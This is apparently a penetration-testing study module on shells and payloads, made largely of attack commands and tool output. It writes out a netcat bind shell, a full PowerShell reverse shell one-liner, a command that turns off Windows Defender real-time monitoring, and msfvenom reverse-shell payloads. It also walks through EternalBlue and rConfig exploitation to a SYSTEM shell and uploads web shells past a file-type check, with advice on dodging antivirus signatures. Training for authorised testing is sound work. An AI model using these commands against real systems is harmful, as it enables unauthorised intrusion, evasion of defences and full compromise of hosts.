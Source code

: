 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **NOTE:**  Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **NOTE:**  Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
msf6 > search smb
```

Selecting an Exploit  

```bash
msf6 > use 56
```

Examining an Exploit's Options  

```bash
msf6 > options
```

Setting Options  

```bash
msf6 > set RHOSTS <TARGET IP>
msf6 > set SMBUser <USER>
msf6 > set SMBPass <PASSWORD>
msf6 > set LHOST <ATTACKER IP>
msf6 > set LPORT <ATTACKER PORT>
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
msf6 > run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When performing ICMP-based host discovery, Windows systems typically respond with one of these ICMP reply codes:

* Code 128: Standard response (most common)

* Code 32: Alternate response variant

These reply codes serve as reliable indicators of an active Windows host when conducting ping sweeps or network reconnaissance.  

**Attack Machine:** Ping target
```bash
ping <TARGET IP> (<TARGET IP>): 56 data bytes
64 bytes from <TARGET IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <TARGET IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <TARGET IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <TARGET IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <TARGET IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <TARGET IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** Dynamic Link Libraries (DLLs) are shared resource files in Microsoft Windows that allow multiple programs to access common code and data simultaneously. Attackers can exploit these files by either injecting a malicious DLL or hijacking a vulnerable system library, enabling privilege escalation to SYSTEM level or bypassing User Account Control (UAC) security measures.

**Batch:** Text-based DOS scripts used by system administrators to automate multiple tasks through the command-line interpreter (CLI).

**VBS:** A lightweight scripting language derived from Microsoft’s Visual Basic. While historically used for client-side web scripting to enable dynamic content, modern browsers have largely deprecated VBS due to security concerns.

Primarily observed in:

* Phishing campaigns (e.g., malicious macros in Office documents)

* Social engineering attacks (e.g., tricking users to enable script execution)

* Legacy system maintenance (rare edge cases)

> **Security ** Execution typically requires explicit user interaction (e.g., enabling macros, clicking embedded objects).

**MSI:** MSI files contain installation instructions and components for Windows applications. Attackers can exploit this system by:

1. Creating malicious MSI packages containing payloads

2. Delivering them to target systems

3. Executing them via the Windows Installer service (msiexec.exe)

This technique can provide:

* Elevated privileges (often SYSTEM-level access)

* Persistent reverse shells

* Bypass of some security controls

**Powershell:** PowerShell serves as both an interactive shell and powerful scripting language, offering extensive capabilities for offensive security operations:

Key Advantages:

* Native Windows integration (no additional dependencies)

* Deep system access (Windows Management Instrumentation, .NET integration)

* Flexible in-memory execution (evades disk-based detection)

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF stands as an indispensable tool for penetration testers, offering exceptional versatility across all stages of security assessments. This comprehensive platform enables professionals to conduct host enumeration, craft customized payloads, deploy both public and private exploits, and execute sophisticated post-exploitation activities.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -n -Pn -sS -T4 -sV -sC -A -O --min-rate 5000 <TARGET IP> -oX nmap_target_xml_scan.xml
xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine if the targert is vulnerable** 

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf6 > show options
msf6 > set RHOSTS <TARGET IP>
msf6 > run
```
```bash
# [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_ms17_010) >> run

# [+] <TARGET IP>:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
# [*] <TARGET IP>:445       - Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
```

The vulnerability assessment indicates a high probability of an EternalBlue exploit working against our target. We'll proceed with configuring the exploit module and payload before initiating the attack.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
msf6 > search eternal
msf6 > use exploit/windows/smb/ms17_010_psexec
msf6 > options
msf6 > set LHOST <ATTACKER IP>
msf6 > set RHOSTS <TARGET IP>
```

Based on prior success rates with the PsExec variant, we'll prioritize this exploit method for initial execution. For this engagement, we've selected a standard Windows Meterpreter reverse TCP payload to maintain operational simplicity.

**Attack Machine: Execute Our Attack**  

```bash
msf6 > run
```
```bash
# [msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> run

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <TARGET IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <TARGET IP>:445 - Built a write-what-where primitive...
# [+] <TARGET IP>:445 - Overwrite complete... SYSTEM session obtained!
# [*] <TARGET IP>:445 - Selecting PowerShell target
# [*] <TARGET IP>:445 - Executing the payload...
# [+] <TARGET IP>:445 - Service start timed out, OK if running a command or non-service executable...
# [*] Sending stage (175174 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:49672) at 2025-06-24 13:13:34 -0400

# (Meterpreter 1)(C:\Windows\system32) > 
```

With an active Meterpreter session established (indicated by the meterpreter > prompt), we now have multiple interaction options.

**Attack Machine: Verify Our Session**  

```bash
getuid
```
```bash
# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell
```
```bash
# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
msf6 > search rconfig
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
msf6 > options
msf6 > set RHOSTS <TARGET IP>
msf6 > set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
msf6 > exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

When encountering systems with restricted shell access and no Python interpreter, we should be prepared with alternative methods to escalate to an interactive shell. Several reliable techniques exist for this common post-exploitation scenario:

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

When Ruby is available on a target system, the following command can execute a system shell:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

When Lua is available on a target system, the os.execute() function can be leveraged to spawn system shells. The most reliable approach uses absolute paths to avoid dependency on environment variables:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a powerful pattern scanning and processing language with C-like syntax, commonly available on UNIX/Linux systems. AWK also provides functionality that can be leveraged to establish interactive shell sessions in security contexts.

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

The find command's -exec parameter can directly invoke a shell interpreter, but this method is contingent on locating the specified file - if the search fails, no shell session will be established.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell provides browser-based command execution on a web server's underlying operating system, frequently serving as the initial persistence mechanism in web application attacks. This foothold often enables subsequent upgrades to fully interactive reverse shells.

In external penetration testing engagements, the most prevalent initial access vectors include:

* Web application vulnerabilities (file upload flaws, SQL injection, RFI/LFI, command injection)

* Credential-based attacks against exposed services (RDS, VPN portals, Citrix, OWA) leveraging Active Directory authentication

* Social engineering campaigns

Web applications typically constitute the largest exposed attack surface during external assessments. Common findings include unsecured file upload functionality accepting malicious PHP, JSP, or ASP.NET web shells.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a curated collection of pre-built injection files designed for web application penetration testing. This repository provides security professionals with:

**Key Capabilities:**

* Immediate reverse shell establishment

* Browser-based command execution on compromised hosts

* Cross-language support (ASP, ASPX, JSP, PHP, etc.)

**Operational Value:**

* Rapid deployment during security assessments

* Multiple language support for diverse web environments

* Pre-tested payloads reducing setup time

<details>
<summary><h3>Installation</h3></summary>  

**Clone the repository**  

```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum toolkit is typically pre-installed at the following location:

```bash
/usr/share/laudanum
```

For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is an ASP.NET web shell included in the Nishang framework, an offensive PowerShell toolkit designed for penetration testing across all engagement phases.

**Key Features:**

* PowerShell Integration: Executes commands directly via PowerShell, ideal for Windows server exploitation

* User Interface: PowerShell-themed UI for seamless interaction

* Operational Flexibility: Supports post-exploitation activities within compromised environments

**Advantages in Engagements:**

* Native compatibility with Windows environments

* Leverages PowerShell’s extensive system access

* Maintains low visibility when properly configured

<details>
<summary><h3>Installation</h3></summary>  

The Antak script can be found at the following location:

```bash
/usr/share/nishang/Antak-WebShell
```

Or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Always configure authentication credentials for your web shell to prevent unauthorized access.

> **NOTE:**  It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

> **NOTE:**  This path requires Windows-style backslashes (\) rather than standard forward slashes (/).

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/webshell.php) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**  

```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

To intercept web traffic through Burp Suite:

1. Launch Burp Suite

    * Ensure the proxy listener is active (default: 127.0.0.1:8080)

2. Configure Browser Proxy Settings

    * Navigate to your browser's network/proxy configuration

    * Enter the following values:

    ```bash
    IP Address/Host: 127.0.0.1  
    Port: 8080
    ```

    * Disable any SSL/TLS verification warnings (for testing environments only)

3. Verification

    * Visit any HTTP page to confirm traffic appears in Burp's Proxy → Intercept tab

> **NOTE:**  Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

To circumvent file type restrictions, we'll manipulate the Content-Type header:

1. Header Modification

    * Change Content-Type: application/x-php → Content-Type: image/gif

    * This exploits potential server-side validation flaws

2. Execution

    * After modification, select Forward in Burp Suite

    * The server may now accept the .php file due to mismatched MIME verification

3. Considerations

    * Effectiveness depends on server validation methods

    * Works against filters checking only Content-Type (not file signatures)

    * Often combined with filename obfuscation (e.g., shell.php.gif)

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When employing web shells during engagements, testers should account for the following challenges:

1. Persistence Limitations

    * Automated file cleanup processes may remove deployed shells after a set duration

2. Functional Constraints

    * Restricted OS interaction (e.g., limited file system navigation)

    * Command chaining failures (e.g., whoami && hostname may not execute properly)

    * Reduced stability in non-interactive environments

3. Forensic Footprint

    * Higher likelihood of leaving detectable artifacts (logs, files, etc.)

**Engagement-Specific Tradecraft**  

For black box or evasive assessments:

* Prioritize stealth techniques to avoid detection

* Mirror realistic adversary tradecraft, including:

    * Log manipulation

    * Timed execution to blend with normal traffic

    * Use of encrypted or obfuscated channels

* Balance operational security with testing objectives to properly evaluate the client's detection capabilities

</details>

</details>

---

📘 **Next step:** Continue with [METASPLOIT FRAMEWORK](./06-metasploit-framework.md)
